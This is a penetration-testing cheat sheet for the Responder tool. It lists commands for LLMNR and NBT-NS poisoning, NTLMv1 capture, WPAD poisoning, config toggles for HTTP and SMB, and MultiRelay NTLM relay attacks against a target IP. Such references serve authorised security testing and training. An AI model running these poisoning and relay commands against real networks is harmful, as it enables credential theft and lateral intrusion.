 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## analyze mode (no poisoning)
#tag/responder
```
responder –I <interface> -A
```

## analyze mode (NTLM V1)
#tag/responder
```
responder –I <interface> -A --lm --disable-ess
```

## poison
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I <interface>
```
## poison with another ip
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I <interface> -e <ip>
```

## poison with wpad file 
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I <interface> --wpad
```

## turn http on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

## turn http off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

## turn smb on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

## turn smb off 
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```
